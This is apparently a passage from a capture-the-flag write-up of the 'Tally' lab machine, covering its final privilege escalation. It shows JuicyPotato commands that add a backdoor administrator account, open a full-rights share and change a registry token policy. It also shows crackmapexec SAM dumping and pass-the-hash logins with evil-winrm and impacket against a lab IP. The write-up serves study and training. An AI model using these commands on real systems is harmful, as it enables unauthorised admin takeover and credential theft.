 <br />
<img src="{{ site.img_path }}/tally_writeup/Tally_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tally_writeup/Tally_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Once the account is created, I continue with the following steps. I must add the newly created account to the **Administrators group**, then create a share folder with **Full privileges** for the **local Administrators group** and finally modify a policy in the **Windows Registry**. I check with `net` that everything has worked correctly and the account belongs to the **Administrators group** and I have <ins>successfully escalated privileges</ins>. Now from my attacker machine I can perform a last validation with `crackmapexec` that the machine was **Pwn3d** and with tools like `evil-winrm`, `impacket-wmiexec`, `impacket-psexec` access the box as a user with maximum privileges and see the content of the last flag.

> **Victime Machine**:

```cmd
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators oldboy /add"
.\JP.Exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp GRANT:Administrators,FULL"
.\JP.Exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
net user
# Local Group Memberships      *Administrators
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.129.1.183 -u 'oldboy' -p 'oldb0y123!$' 2>/dev/null
crackmapexec winrm 10.129.1.183 -u 'oldboy' -p 'oldb0y123!$' 2>/dev/null
evil-winrm -i 10.129.1.183 -u 'oldboy' -p 'oldb0y123!$'
# :)

crackmapexec smb 10.129.1.183 -u 'oldboy' -p 'oldb0y123!$' --sam 2>/dev/null
evil-winrm -i 10.129.1.183 -u 'Administrator' -H 'd90.....b2'

impacket-wmiexec administrator@10.129.1.183 -hashes :d90.....b2

impacket-psexec WORKGROUP/Administrator@10.129.1.183 -hashes :d90....b2
```
